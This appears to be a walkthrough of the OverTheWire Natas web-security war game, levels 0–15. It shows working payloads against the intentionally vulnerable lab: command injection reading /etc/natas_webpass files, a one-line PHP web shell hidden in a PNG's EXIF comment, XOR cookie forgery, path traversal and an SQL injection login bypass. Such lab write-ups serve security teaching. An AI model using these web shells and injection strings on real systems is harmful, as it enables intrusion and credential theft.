







# Level 0

On the borwser, we type the URL **http://natas0.natas.labs.overthewire.org/** and provide the username **natas0** and password **natas0** as mentioned in the war game description.


# Level 1

To start with, we check the page source by right-clicking and choosing **view page source**.


The password is stated clearly as a comment on the line 16.

# Level 2

The problem with this level is that you can't right-click on it to go to the page source. But since I'm using **FireFox**, it allowed me to right-click it without any issue. But when I tried it with **Chrome** or **Edge**, it prompted me with an alert messag saying I can't use right-click. Anyway, the solution is to write right before the **URL** the key word **"view-source:"** .



The password is commented on line 17.

# Level 3

After checking the page source, we can see on line 15 that it is getting an image named **pixel.png** from a folder calld **files/**. Let's check that folder by typing it in the **URL**


We have infront of us two accessible files. One is that image and the other is a txt file.


After clicking on it, it revealed a list of users and their password. Among them, the user **natas3**.


# Level 4

After checking the page source, there is a comment that says Goofle will not find it. That's a hint !

Google uses cralwers to crawl over links and paths of the web. To prevent it from going certain paths, we write these paths on a file called **robots.txt**. So let's check it.


The disallowed path is **/s3cr3t/**.


Folloing it, we find the **users.txt** file like the previous level.


**users.txt** revealed the credentials for the user **natas4**.


# Level 5

We are not allowed to access the page and it tells that it is expecting access from another webpage. This brings us to the concept of **Referer** (yes, an R is missing) which tells from where we came. Let's assume we are on website A and there is a link to website B. When we click it it gets us to website B with the **Referer** holding the website A as we came from there.

To solve this, let's intercept the request right before clicking the **refresh** link and change our **Referer**.


As you can see, the **Referer** field is set to **"http://natas4.natas.labs.overthewire.org/"**. So let's change it to **"http://natas5.natas.labs.overthewire.org/"** and hit **Forward** button.


# Level 6

We are disallowed. Source page didn't reveal anything useful. So let's look around for anything suspecious.

Checking the **Cookies**, we can spot an interesting one named **loggedin** with a value of **0**.


In many programming languages, 0 reffers to False and any other number reffers to True. So let's try changing that cookie's value to 1 and then refreshing the page.


# Level 7

Here we need a secret phrase. Viewing the page source didn't give us anything useful but following the link provided gave as an extra part in the source code which is a php code. This code can be read only by the server that's why we couldn't see it when checking source page on our own.

That piece of code started with including a specific file from a specific folder. so let's follow it by typing it on the **URL** above.


It gave us a blank page. But viewing its source page gave us the secret phrase.


Typing that secret phrase in the input field will grant us access and reveal the next password.


# Level 8

The hint provided in source page is that the password is listed in **/etc/natas_webpass/natas8**. And when follow links for **Home** or **About**, we can clearly see in the url above that it ends with **index.php?page=** followd by our destination. So let's try to replace the destination by **/etc/natas_webpass/natas8**.


# Level 9

Following the same process in **level 7**. We find some php code. It gae us the secret in its encrypted form along with the function of the encyrption which is **bin2hex(strrev(base64_encode($secret)))**. So basically, it takes the secret as input and converts it to base64 then reverses the result and finally it converts the final result to hex.



To decrypt it, we can revert the process using **CyberChef** by converting from Hex then reversing and finally converting from Base64.


And voilà! We get the secret that will grant us access to the password.


# Level 10

Here, it takes our input and put it directly in a shell command without sanitization to search for it with **grep** command in a file called **directory.txt**.



We can exploit it by making our input a valid command and seperate it from the rest of the command that it is intented to be added to it with th use of semicolon **" ; "**. For exapmle, typing **" ; whoami ; "** will print us the current user.


So let's get the password by typing **" ; cat /etc/natas_webpass/natas10 ; "**.


# Level 11

Here, it did some sanitazion to the input. It no longer accepts input that contains **;** or **&** or **|**.



We can cleverly exploit the **grep** command to search not only in the **dictionary** file but also in **/etc/natas_webpass/natas11** file.

Fortunatly, **grep** can accepts multiple files to look into after specifying the strings to look for. So what we can do is make our input in this form : **" {s} /etc/natas_webpass/natas11 "** where **{s}** will be replaced with strings to look for. And with that, it will search for the existance of **{s}** in **dictionary.txt** and **/etc/natas_webpass/natas11**.

Following the pattern of passwords, we know for sure that it contains numbers so let's replace **{s}** with numbers from 0 to 9 until we get a result.

We got a result with 1. so the input **" 1 /etc/natas_webpass/natas11 "** will give us the password.


# Level 12

After understanding the php code in the source code, we can see that it does the following process :

- It creates an array that contains **showpassword** with the value of **no** and **bgcolor** with the value of **#ffffff** and store it in variable named **defaultdata**
- It has a function of encryption that encrypts by xoring with a key text character by character. The key text is not stated plainly.
- It has a function that loads data from cookie : It grabs the cookie that holds **data** key, decode it from base64, decrypt it, turns it from string to a decoded json then extract from its keys (which are **showpassword** and **bgcolor**) the corresponding values and outputs them in an array. The decryption is made by encrypting again because xoring twice will get you to the same result.
- It has a function to save data data by feeding an array and doing the whole process of json decoding, encrypting, base64 encoding and setting it to the cookie **data**.
- Finally, it checks if the key **showpassword** of the current encrypted **data** cookie has a value of **yes**, it will show as the password.

So basically we need to change the value of the cookie to what it desires but we need it to be encrypted the way it wants with its unknown key. What we have are two things : the **defaultdata** array which is **array( "showpassword"=>"no", "bgcolor"=>"#ffffff")** and the encrypted base64 encoded version of its json encoded string which is **" HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg "** which can be taken from the value of the cookie **data** and removing the **" %3D "** because it just means **" = "** but url encoded. Anyway, these two are enough for us to find the key because if the first xored with key gave us the second, xoring the first with the second will give us the key !

So let's write a similar php code to do the same encypting but changing the key with json encoded version of the **defaultdata** array and encrypt the value of **data** cookie.

```php
<?php

function xor_encrypt($in) {
    $key = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo xor_encrypt(base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg"))
?>
```


As you can see, it outputs 4 characters that are repeated multiple times which is expected because initialy it used modulo operation to go through the key letters multiple times. Anyway, the key is these 4 characters.

Now, we change our encryption function with the actual key and encrypt the json encoded version of the desired array (which holds the value **yes** to the key **showpassword**) and of course code it in base64.



Injecting that resulted string in **data** cookie and refreshing the page will give us the password.



# Level 13

Going through the source code, what it does is that it take our uploaded file and change its name with a randomly generated one and then it saves it in **upload/** folder and even provides us its link.

Obviously, we are going to craft a web shell as an input which will allow us to inject commands and get output from teh web's server.

I googled for a simple one line php payload and settled with the following :

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

And it will allow us to inject the command in the url above after "**.php?=cmd**".
So let's craft it in a **.php** file (that I named rev.php) and upload it.


The problem is after uploading it, it changes its extension from **.php** to **.jpg** which will prevents its job.


And that's because it set the name randomly (as we said earlier) from the very beginning and replace our file's name, including its extension, with the generated name. This is where it is done :


So to prevent it from changing our extension, after the page is loaded and before uploading our file, we need to change the **HTML** code and specifically change the extenstion of the generated name in that line from **.jpg** to **.php**.


Let's upload now and follow the link to open our reverse web shell.

Let's verify if the payload is working correctly by adding to the url : **" ?cmd=whoami "**.


Cool ! Now let's inject the command **" cat /etc/natas_webpass/natas13 "** to get the next password. But first, we need to URL-encode it. In our case, all we need to is replace that space with **" %20 "**. If you want to make sure, you can hope quickly to CyberChef and URL-encode that command.

Anyway, here is the result :


# Level 14

Now, it checks if we uploaded a legit image so we can't simply throw a php payload. So let's get ourselves a real image and inject in it the payload !

The image needs to be really tiny with a size under 1Kb to be accepted so let's download a small white pixel. Here is a nice website to do so : https://commons.wikimedia.org/wiki/File:1x1.png

Now how can we inject our payload in that image ? Well, each image has a field named **Comment** that can hold strings without affecting the image itself. So let's comment our payload in that image with **exiftool** command. Then, we need to rename our image to hold **.php** extension rather than **.png** so it can work properly

```console
$ exiftool -Comment='<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>' 1x1.png
$ mv 1x1.png 1x1.php
```


Let's run **exiftool** on our new file to check if it is still interpreted as a legit image.

```console
$ exiftool 1x1.php
```



As you can see, it stated that the file type is PNG and the the file type extension is png. It even printed out its comment which is our payload. So let's give it a try!

But don't forget to change the extension from .jpg to .php in HTML code as we did earlier.


It got uploaded successfully. Let's follow its link and type **" ?cmd=whoami "** to test it.


It outputs the result at the start of the last line. Cool !

Let's give it the real deal : **" ?cmd=cat%20/etc/natas_webpass/natas14 "**


# Level 15

Here, we can do some basic SQL injection. Based on the source code, the input is not sanitized so we can manipulate the SQL querry with whatever input we give it.

If we leave the username empty and type {**" or "1" = "1**} in the password, the querry will be interpreted like this

```sql
SELECT * from users where username="" and password="" or "1" = "1"
```

That **{or "1" = "1"}** part makes the statement true whatever the username and password are. And thus, it will select everything in the table and bypass that if statement (that checks if we selected at leat one row) correctly.


